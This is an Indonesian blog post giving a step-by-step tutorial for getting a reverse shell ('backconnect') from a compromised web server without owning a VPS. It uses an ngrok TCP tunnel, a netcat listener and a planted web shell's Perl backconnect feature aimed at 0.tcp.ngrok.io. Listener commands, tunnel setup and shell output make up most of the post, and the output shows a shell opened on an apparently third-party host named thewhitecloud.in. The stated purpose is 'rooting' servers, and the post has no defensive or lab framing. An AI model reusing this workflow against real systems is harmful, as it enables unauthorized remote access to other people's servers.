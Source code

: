 ```yaml
---
title: "Backconnect Server Dengan Ngrok"
date: 2019-05-03T08:46:38+07:00
draft: false
toc: false
images:
tags: 
  - web
  - shell
---
```


Bagi temen temen yang mau rooting server tapi tidak punya VPS, ada cara lain yaitu dengan menggunakan ngrok, tapi tidak semua server atau *web shell* support backconnect dengan ngrok. tidak ada salahnya mencoba kan? hehe.

Disini saya menggunakan perl sebagai media backconnect antara server dan ngrok. OK lanjut ke alat tempurnya.

 1. Ngrok [Download](https://ngrok.com/download) Pilih sesuai sitem operasi kamu.
 2. Server yang support perl sangat di anjurkan,
 3. Netcat [Download](https://eternallybored.org/misc/netcat/) (disini saya menggunakan windows)

### Download dan Auth Ngrok
Jangan lupa untuk buat akun ngrok di [sini](https://dashboard.ngrok.com/user/signup) guna mengautentikasi token. Ektrak ngrok-XXX.zip nya lalu autentikasi token nya agar *ngrok* dapat berjalan. Ganti token sesuai dengan punyamu.
```
./ngrok authtoken initokenBqHnhg3_3X3JtBTSu1rNojz4kXXX
```

### Konfigurasi Ngrok & Netcat 
Selanjutnya jalankan *ngrok* dengan tcp, port sesuai selera misalkan:
```
./ngrok.exe tcp 1991
```
Pastikan ngrok berjalan dengan baik seperti di bawah ini,
```
ngrok by @inconshreveable                                                       (Ctrl+C to quit)

Session Status                online
Account                       Tan (Plan: Free)
Version                       2.3.23
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://0.tcp.ngrok.io:16857 -> localhost:1991

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```
Jalankan netcat, pastikan port sesuai dengan port yang di jalankan di ngrok.
```
./nc.exe -lnvp 1991
```
Pastikan netcat berjalan walau masih listening,
```
λ .\nc.exe -lnvp 1991
listening on [any] 1991 ...
```

### Backconnect Server
Setelah semua terkonfigurasi, tinggal melakukan backconnect server ke komputer kita, pastikan webshell yang kita gunakan mempunyai fitur *backconnect*. 
{{< figure src="https://raw.githubusercontent.com/tanmyid/blog/master/img/fitur-bc.PNG" alt="fitur-bc" caption="Fitur Backconnect" >}}

Setelah semua terkonfigurasi, isi server dengan `0.tcp.ngrok.io` dan isi Port dengan port yang di buat oleh ngrok misal `16857` di sini saya menggunakan perl. Untuk `Bind port to /bin/sh [Perl]` abaikan saja. Klik >>
{{< figure src="https://res.cloudinary.com/tanmyid/image/upload/v1556851179/isi-bc_kodyu6.png" alt="isi-bc" caption="Contoh backconect" >}}

Cek di netcat, apakah sukses melalukan backconnect, jika sudah balasan dari server seperti di bawah, berarti sudah sukses backconnet,
```
λ .\nc.exe -lnvp 1991
listening on [any] 1991 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 62032
sh: no job control in this shell
sh-4.2$
```
### Uji Coba Command Linux
Selanjutnya tinggal [Spawn TTY Shell](https://tan.my.id/posts/spawn-tty-shell/). Ok kita coba jalankan command untuk memastikan kita sudah benar benar mendapak shell nya.
```
sh-4.2$ uname -a                                                                                
uname -a                                                                                        
Linux thewhitecloud.in 3.10.0-514.16.1.el7.x86_64 #1 SMP Wed Apr 12 15:04:24 UTC 2017 x86_64 x86
_64 x86_64 GNU/Linux                                                                            
```
Ok sudah berhasil, tips ini berguna bagi kalian yang tidak mempunyai VPS saat rooting server. Sekian dan terima kasih.

